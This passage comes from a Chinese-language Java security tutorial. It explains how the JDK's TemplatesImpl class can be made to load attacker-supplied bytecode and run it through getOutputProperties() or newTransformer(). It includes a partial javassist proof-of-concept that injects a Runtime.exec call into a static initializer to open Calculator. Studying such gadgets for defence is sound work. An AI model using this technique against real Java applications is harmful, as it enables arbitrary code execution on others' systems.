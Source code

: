 ```java
                }
            }
        }
}
```

在方法中，调用了 `ClassLoader.defineClass()` 方法，参数为实例变量  `_bytecodes` 内的元素，该方法会将字节数组转换为 Class，并加载

也就是说，通过设置 `_bytecodes` 的内容 ，调用 `defineTransletClasses()` 方法即可加载指定的 Class。

在代码中，一共有三个地方调用了这个方法

- getTransletClasses()
- getTransletIndex()
- getTransletInstance()

在  **Java static initializer**  部分提到  `ClassLoader.defineClass()`  并不会执行 static 代码块，所以前两个方法不满足条件，再看一下  `getTransletInstance()` 方法

```java
   private Translet getTransletInstance()
        throws TransformerConfigurationException {
        try {
            if (_name == null) return null;

            if (_class == null) defineTransletClasses();
            
            // 创建实例
            AbstractTranslet translet = (AbstractTranslet) _class[_transletIndex].newInstance();
            ...
        }
    }
```

`defineTransletClasses()` 执行后，会调用之前加载的 Class 的 `newInstance()` 方法来创建实例，触发 static block 和 constructor 的执行，根据方法调用关系

```java
getOutputProperties() => newTransformer() => getTransletInstance() => defineTransletClasses() => ClassLoader.defineClass()
```

可以看到调用 `getOutputProperties()` 或 `newTransformer()` 方法均可触发恶意代码的执行

理一下思路

- 使用 `javassist`  库创建一个包含恶意代码的 class，恶意代码可以在 static block中，或在无参构造函数里
- 将恶意 class 的的字节码添加到 TemplatesImpl 实例的 `_bytecodes` 变量中
- 调用实例的 `getOutputProperties()` 或 `newTransformer()` 方法触发恶意代码执行

弹出计算器的代码示例如下 (程序报错可以忽略)

```java
    @Test
    public void testTemplatesImpl() throws Exception {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.get(Cat.class.getName());
        String cmd = "java.lang.Runtime.getRuntime().exec(\"open -a /Applications/Calculator.app\");";
        // 创建 static 代码块，并插入恶意代码
        cc.makeClassInitializer().insertBefore(cmd);
        // 使用构造方法也可以
        //CtConstructor constructor = cc.getDeclaredConstructor(new CtClass[]{});
        //constructor.insertBefore(cmd);
        String randomClassName = "EvilCat" + System.nanoTime();
        cc.setName(randomClassName);
        // 为了使 _transletIndex 正确，并执行 newInstance()，具体可查看 defineTransletClasses 方法
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        // 获取字节码
```